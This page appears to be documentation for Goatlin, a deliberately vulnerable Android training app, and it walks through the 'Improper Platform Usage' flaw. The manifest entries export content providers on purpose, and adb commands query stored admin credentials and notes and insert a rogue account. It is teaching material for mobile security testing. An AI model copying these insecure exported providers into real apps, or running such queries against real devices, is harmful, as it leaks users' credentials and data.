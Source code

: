 M1: Improper Platform Usage
===========================
From the [Android documentation][4]: "_Content providers are one of the primary
building blocks of Android applications, providing content to applications_".
Content providers are mostly used to share data between Android applications.
Such as Activities, Services or Receivers, Content providers can have weak
permissions or can be exported for all the apps on the device. Such
misconfiguration can lead the Android app to leak the data used by the Content
provider.

When the Content provider is exported, all the apps can query the Content
provider to retrieve or modify the data. On the Goatlin app, we can identify
that a Content provider is defined with the name `.AccountProvider` and the
exported tag is set to true. Here is an extract of the `AndroidManifest` file:

```xml
<provider
    android:name=".AccountProvider"
    android:authorities="com.cx.vulnerablekotlinapp.accounts"
    android:enabled="true"
    android:exported="true" />
```

Looking at the code on the `AccountProvider.kt` class, we can retrieve the
Content URI:

```xml
companion object {
    private val AUTHORITY = "com.cx.vulnerablekotlinapp.accounts"
    private val ACCOUNTS_TABLE = "Accounts"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                ACCOUNTS_TABLE)
    private val DATABASE_NAME = "data"
}
```

Then, using the `adb` tool, we can query this provider and even insert data.
Here is simple example allowing to query the provider in order to retrieve the
accounts stored:

```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
```

We can obtain the admin's credentials in this case.


Here is another example allowing to add a new account into the Goatlin app:

```
$ adb shell content insert --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts  --bind username:s:kotlin --bind password:s:goat
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.accounts/Accounts
Row: 0 id=1, username=admin, password=admin
Row: 1 id=2, username=kotlin, password=goat
```

Below you can see this is action

<center>
    <iframe width="560" height="315" src="https://www.youtube.com/embed/U5czs2s8Ifc" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
    <p><a href="https://www.youtube.com/watch?v=U5czs2s8Ifc">Watch on Youtube</a></p>
</center>

In the same manner, the app leaks a Content provider named `.NotesProvider` for
the notes created by the user.

Here is the definition of the Content provider in the Android manifest:

```xml
<provider
    android:name=".NotesProvider"
    android:authorities="com.cx.vulnerablekotlinapp.notes"
    android:enabled="true"
    android:exported="true"></provider>
```

As shown previously, we can obtain the Content URI by analyzing the
`NotesProvider` class:

```kotlin
companion object {
    private val AUTHORITY = "com.cx.vulnerablekotlinapp.notes"
    private val NOTES_TABLE = "Notes"
    val CONTENT_URI : Uri = Uri.parse("content://" + AUTHORITY + "/" +
                NOTES_TABLE)
    private val DATABASE_NAME = "data"
}
```

Again, with the `adb` tool, we can query this provider and retrieve the notes
stored:

```
$ adb shell content query --uri content://com.cx.vulnerablekotlinapp.notes/Notes
Row: 0 id=1, title=whvw, content=whvw, createdAt=2019-01-07 14:58:32, owner=1
```

For this provider, we can observe that the notes are not stored in clear text
(the title and content of the note should be "test").
This encryption mechanism is further analyzed in the [M5: Insufficient
Cryptography][8] section.

More information about how to test improper platform usage can be found on the
[OWASP Mobile Testing Guide][5] and especially on the [Testing Platorm
Interaction] [6] section.

## Resources

### Tools

* [adb][9]
* [apktool][1]
* [jadx][2]
* [jd-gui][3]

### Readings

* [Android documentation: Content Provider][4]
* [Testing Platform Interaction][6]
* [OWASP Mobile Testing Guide][5]
* [OWASP Mobile Top 10 2016: M1 - Improper Platform Usage][7]

[1]: https://github.com/skylot/jadx
[2]: http://jd.benow.ca/
[3]: https://ibotpeaches.github.io/Apktool/
[4]: https://developer.android.com/reference/android/content/ContentProvider
[5]: https://www.owasp.org/index.php/OWASP_Mobile_Security_Testing_Guide
[6]: https://github.com/OWASP/owasp-mstg/blob/master/Document/0x05h-Testing-Platform-Interaction.md
[7]: https://www.owasp.org/index.php/Mobile_Top_10_2016-M1-Improper_Platform_Usage
[8]: ../m5-insufficient-cryptography
[9]: https://developer.android.com/studio/command-line/adb

